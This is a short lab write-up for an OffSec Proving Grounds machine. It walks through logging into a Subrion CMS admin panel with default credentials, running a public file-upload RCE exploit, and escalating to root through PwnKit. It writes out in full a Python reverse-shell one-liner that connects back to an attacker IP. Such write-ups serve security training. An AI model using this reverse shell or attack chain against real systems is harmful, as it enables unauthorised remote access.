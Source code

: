 # PG: Exfiltrated

## Reconnaissance

Connecting to the http server via the IP redirects to `exfiltrated.offsec` so I
added it to my `/etc/hosts` file.

The Wappalyzer Firefox extension identified that the server was running Subrion, 
an open source CMS.

Testing common credentials I was able to login to the admin interface located at 
`/panel/` with credentials `admin:admin`.

![Successful login as admin](screenshots/2022-11-15_15-22.png)

## Initial access

I Found that the installed version of Subrion was vulnerable to an authenticated 
abritrary file upload vulnerability that leads to RCE. Searching exploit-db I
found this [exploit](https://vulners.com/exploitdb/EDB-ID:49876). After an
inspection of the source code I ran it to obtain a non interactive shell as the
user www-data.

![Webshell as www-data](screenshots/2022-11-15_15-24.png)

I upgraded to an interactive shell with the following python 3 reverse shell and
catching it with a netcat listener:

```
export RHOST="192.168.49.147";export RPORT=80;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

![Catching reverse shell](screenshots/2022-11-15_15-29.png)

## Privilege Escalation

Linpeas found that the system was vulnerable to CVE-2021-4034 aka PwnKit. I used
this [exploit](https://github.com/ly4k/PwnKit) to obtain a root shell.

![Proof of command execution as root](screenshots/root_proof.png)
